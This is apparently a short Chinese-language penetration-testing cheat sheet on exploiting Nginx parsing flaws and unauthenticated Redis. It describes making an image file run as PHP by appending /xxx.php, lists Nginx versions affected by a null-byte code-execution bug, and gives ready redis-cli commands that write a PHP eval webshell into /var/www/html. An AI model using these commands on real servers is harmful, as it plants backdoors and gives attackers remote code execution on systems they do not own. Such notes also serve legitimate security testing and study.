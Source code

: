 



## Nginx

### Nginx配置文件错误导致解析漏洞

对于任意文件名，在后面添加/xxx.php（xxx为任意字符）后,即可将文件作为php解析。 例：info.jpg后面加上/xxx.php，会将info.jpg 以php解析。

### 空字节任意代码执行

影响版本：Nginx 0.5, 0.6,0.7 <= 0.7.65,0.8 <= 0.8.37

![image-20220310173409572](HW/image-20220310173409572.png)

## redis

### 未授权访问

写webshell，写ssh公钥，写计划任务

**写webshell**

需开启redis-cli，

```sh
config set dir /var/www/html/ 
config set dbfilename shell.php
set xxx "<?php eval($_POST[whoami]);?>" 
或者
set xxx "\r\n\r\n<?php eval($_POST[whoami]);?>\r\n\r\n"
save
```

